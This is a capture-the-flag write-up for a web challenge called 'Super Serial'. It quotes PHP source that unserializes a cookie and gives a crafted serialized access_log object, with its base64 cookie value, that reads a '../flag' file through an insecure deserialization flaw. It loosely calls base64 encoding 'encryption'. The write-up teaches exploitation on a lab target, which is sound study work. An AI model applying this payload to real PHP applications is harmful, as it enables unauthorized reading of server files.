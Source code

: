 # Super Serial

We have a sign in form. Try some username and password but I only get "Invalid Login." from the website.

Notice that we have something in `/robots.txt`:

`User-agent: *`
`Disallow: /admin.phps`

But nothing in `/admin.phps` or `/admin.php`. `.phps` is a hint for me. May be I can read some files that end with `phps`.

Therefore, I have source code of 3 files `index.phps, cookie.phps, authentication.phps`.

Look at this special block source code in `cookie.phps`:

```php
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```

There is a cookie named `login` would be touched after our authenticate. This cookie is defined with `urlencode(base64_encode(serialize($perm_res)))`, where `$perm_res = new permissions($username, $password);`.

When we get an error with deserialization it will return `die("Deserialization error. ".$perm);`. Look at this `access_log` object:

```php
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}
```

So, we can use `access_log` object to read the flag file `../flag` (in hint): Replace the value `$perm` with a new value, before encrypt:

`O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}`

After encrypt:

`TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9`

Add cookie `login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9` with path `/authentication.php` and `user=admin&pass=123` we will get the flag.
